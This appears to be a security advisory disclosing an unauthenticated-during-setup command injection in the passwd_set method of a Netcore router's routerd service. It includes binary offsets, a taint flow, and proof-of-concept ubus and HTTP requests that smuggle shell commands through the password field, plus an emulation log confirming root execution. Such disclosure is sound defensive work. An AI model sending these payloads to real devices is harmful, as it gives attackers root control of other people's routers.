

# Netcore NBR1005GPEV2 Router

- Vendor: Netcore
- Product: NBR1005GPEV2
- Firmware Version: V1.3.241107.015153 (LEDE 17.01-SNAPSHOT, MIPS16e mipsel / MT7621)
- Vulnerability Type: OS Command Injection (CWE-78)
- Severity: High

## Overview

A command injection vulnerability exists in the `passwd_set` ubus method of the `routerd` service. The new-password argument (`pwd`) is concatenated **without sanitization** into a shell command passed to `system()`. The method is reachable **unauthenticated** during the device's pre-initialization window (it is listed in `unauthenticated.json`), and is otherwise reachable after authentication.

Endpoint: `ubus call routerd passwd_set` (over `/ubus` JSON-RPC, served by uhttpd on 80/443/23355).

## Vulnerability Details

**Component:** `/usr/bin/routerd` (ELF, MIPS16e, not stripped).

The `passwd_set` handler (reached via the central dispatcher `routerd_finalize` → `blobmsg_parse`) performs:



1. `do_check_password(old)` — verifies the **old** password (strcmp against `uci system.@system[0].passwd`); `username` is validated with `isalnum()`+`'_'` (blocks injection via `user`).
2. `system("changeuser " + user)` — safe (user validated).
3. `system("passwd root")`.
4. `snprintf(buf, "uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac", pwd)` @ `0x4163f6` — **`pwd` is the attacker-controlled new password, no filtering.**
5. `system(buf)` @ `0x4163fc` — **injection point.**
6. `system("ubus call acap ac_passwd_change")`.

Taint flow: ubus blobmsg `pwd` → `snprintf("%s")` @ 0x4163f6 → `system(buf)` @ 0x4163fc.

## Proof of Concept

Direct ubus call (emulation / device shell):

```sh
ubus call routerd passwd_set '{"ubus_rpc_session":"00000000000000000000000000000000","user":"root","pwd":"$(id>/www/p.txt)","by":"<current password>"}'
```

Over HTTP `/ubus` JSON-RPC (unauthenticated during pre-init window):

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","routerd","passwd_set",{"user":"root","pwd":"$(id>/www/p.txt)","by":"<current password>"}]}
```

Then read the result back: `GET /p.txt` → `uid=0(root) ...`.

## Impact

- Remote code execution as `root` whenever the attacker knows (or can brute/guess) the current admin password — including the **factory default / empty password** on an unconfigured device.
- During the pre-initialization window the method is reachable **without authentication** (per `unauthenticated.json`), so on a fresh/reset device this is effectively unauthenticated RCE.
- `$(...)` and `` ` `` inside `pwd` are interpreted because the value is placed inside a double-quoted `system()` argument.

## Reproduction Result

Verified in emulation (`qemu-user-static` + chroot, `routerd` started, `strace -f -e trace=execve` attached). The injected `pwd` reached `system()` unfiltered:

```
execve("/bin/sh", ["sh","-c","uci set auto_ac.auto_ac.passwd=$(touch /tmp/RCE_PWD3);uci commit auto_ac"], ...)
```

and `$(touch /tmp/RCE_PWD3)` executed, creating the file owned by `root`. (The sibling `set_local_time` method was also examined: dynamic testing showed it rejects malformed input with `Invalid argument`, i.e. it is *not* exploitable despite an initial static guess — only `passwd_set` is.)
